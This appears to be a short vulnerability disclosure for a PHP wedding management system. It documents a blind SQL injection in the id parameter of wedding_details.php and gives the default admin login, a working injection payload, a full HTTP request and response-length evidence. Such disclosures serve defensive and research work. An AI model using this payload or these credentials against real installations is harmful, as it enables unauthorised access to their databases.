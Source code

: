 # WeddingManagement System v1.0 by codeastr.com has SQL injection

Author： k0xx

The password for the backend login account is: admin@mail.com/Password@123

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: /Wedding-Management/wedding_details.php

Vulnerability location: /Wedding-Management/wedding_details.php?id=,id

[+] Payload: /Wedding-Management/wedding_details.php?id=31%20and%20length(database())%20=9 // Leak place ---> id

Current database name: dbwedding,length is 9

```sql
GET /Wedding-Management/wedding_details.php?id=31%20and%20length(database())%20=9 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 8, Content-Length: 4824

![image](https://user-images.githubusercontent.com/54017627/167991476-8707557f-e951-4cee-a1cf-5bfd8132ceef.png)

![image](https://user-images.githubusercontent.com/54017627/167991520-2cbd91ce-d861-44a9-a8ac-e7bbe0bcfcb5.png)

When length (database ()) = 9, Content-Length: 5397

![image](https://user-images.githubusercontent.com/54017627/167991438-2b0fcd25-d996-4805-a6a8-14f2e77a246b.png)

![image](https://user-images.githubusercontent.com/54017627/167991500-2df43851-84fd-4b73-9785-e5f69cb0a8fb.png)
